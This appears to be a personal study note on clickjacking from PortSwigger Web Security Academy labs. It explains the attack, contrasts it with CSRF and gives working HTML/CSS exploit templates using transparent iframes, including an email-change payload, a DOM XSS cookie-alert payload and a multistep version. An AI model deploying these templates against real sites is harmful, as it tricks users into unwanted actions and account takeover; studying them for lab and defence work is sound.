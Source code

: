 # Clickjacking (UI redressing)

![](https://github.com/DK9510/Img/blob/main/ClickJacking.png)
![[ClickJacking.png]]

## click-Jacking
- it is an interface based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
- `Example: `
- A web user access a decoy website (i.e link provided by `phishing mail`) and click on a button to win a prize.
- unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this result in `payment to the attacker or any thing like purchasing subscription to attacker etc`.
- this is example of `clickjacking attack`
- the technique is depend on the `actionable and invisible webpage`
- `Note:` this attack is different from the `CSRF` because in `CSRF we do unintentionable action without user's knowledge and intraction` while in `Clickjacking` user need to click button which trigger hidden iframe or link to do certain tasks.
- Protection against CSRF attacks is often provided by the use of a `CSRF token` a session-specific, single-use number or nonce. `Clickjacking` attacks are not mitigated by the `CSRF token` as a target session is established with content loaded from an authentic website and with all requests happening on-domain. `CSRF tokens` are placed into requests and passed to the server as part of a normally behaved session. The difference compared to a normal user session is that the process occurs within a hidden iframe.

# how to construct basic clickjacking attack
- it use CSS to create and manipulate layers 
- `Example: `
```js
<head>  
  <style>  
    #target_website {  
      position:relative;  
      width:128px;  
      height:128px;  
      opacity:0.00001;  
      z-index:2;  
      }  
    #decoy_website {  
      position:absolute;  
      width:300px;  
      height:400px;  
      z-index:1;  
      }  
  </style>  
</head>  
...  
<body>  
  <div id="decoy_website">  
  ...decoy web content here...  
  </div>  
  <iframe id="target_website" src="https://vulnerable-website.com">  
  </iframe>  
</body>
```

adjust buttons to the iframe button and send to victim

another exploit 
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.000001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 450px;
       left: 80px;
       z-index: 1;
   }
</style>
<div>Click</div>
<iframe sandbox="allow-forms" src="https://ac541f881fc916be80be6fa300d3000a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Combining Clickjacking with DOM XSS attack
exploit
```js
<style>  
   iframe {  
       position:relative;  
       width:700;  
       height: 500;  
       opacity: 0.00001;  
       z-index: 2;  
   }  
   div {  
       position:absolute;  
       top:410;  
       left:80;  
       z-index: 1;  
   }  
</style>  
<div>Test me</div>  
<iframe  
src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep Clickjacking
- Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:450px;
       left:55px;
       z-index: 1;
   }
   .secondClick {
       top:535px;
       left:55px;
   }
</style>
<div class="firstClick">Click me First</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac7a1fcf1f6afc5080da19c4004e0043.web-security-academy.net/my-account/"></iframe>
```

## Protecting Against ClickJacking 
### [portswigger-web-security](https://portswigger.net/web-security/clickjacking)
